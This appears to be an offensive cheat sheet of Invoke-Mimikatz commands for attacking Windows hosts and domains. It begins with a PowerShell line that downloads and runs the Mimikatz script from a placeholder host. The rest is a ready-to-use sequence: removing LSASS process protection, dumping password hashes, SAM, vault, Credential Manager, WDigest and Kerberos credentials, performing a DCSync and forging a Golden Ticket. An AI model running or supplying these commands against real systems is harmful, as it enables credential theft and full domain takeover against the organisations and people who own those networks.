 # Get em' all!

Invoke: `iex(New-Object net.webclient).downloadstring('http://ip/Invoke-Mimikatz.ps1')`

### Disable PPL

- `Invoke-Mimikatz -Command '"!processprotect /process:lsass.exe /remove"'`

### Each one at a time

- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch"'` - Get passwords of scheduled tasks.
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'` - Dump logged-on Accounts hashes.
- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'` - Local Accounts Credentials
- `Invoke-Mimikatz -Command '"privilege::debug" sekurlsa::ekeys"'` - List Kerberos encryption keys
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::credman"'` - List Credentials Manager
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::ssp"'` - Lists SSP credentials
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::wdigest"'` - List WDigest credentials

### All in one

- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch" "lsadump::sam" "sekurlsa::credman" "sekurlsa::ssp" "sekurlsa::wdigest" "sekurlsa::logonpasswords"'`

### DCSync

- `Invoke-Mimikatz -Command '"lsadump::dcsync /user:NETBIOS\USER"'` - Maybe domain controller need to be specified too with `/dc:<DC FQDN>`.

### Golden Ticket

- `Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:HASH id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`
